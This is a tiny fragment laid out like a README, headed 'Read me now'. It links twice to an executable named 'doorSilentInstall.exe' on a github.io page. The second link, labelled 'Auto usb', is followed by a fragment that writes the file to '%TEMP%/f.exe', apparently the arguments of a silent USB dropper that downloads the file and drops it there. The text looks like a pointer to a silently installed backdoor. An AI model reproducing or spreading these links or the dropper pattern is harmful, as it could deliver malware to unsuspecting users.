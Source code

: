 # Read me now
https://manonokins.github.io/door/doorSilentInstall.exe
Auto usb: https://manonokins.github.io/door/doorSilentInstall.exe%27,%27%TEMP%/f.exe%27
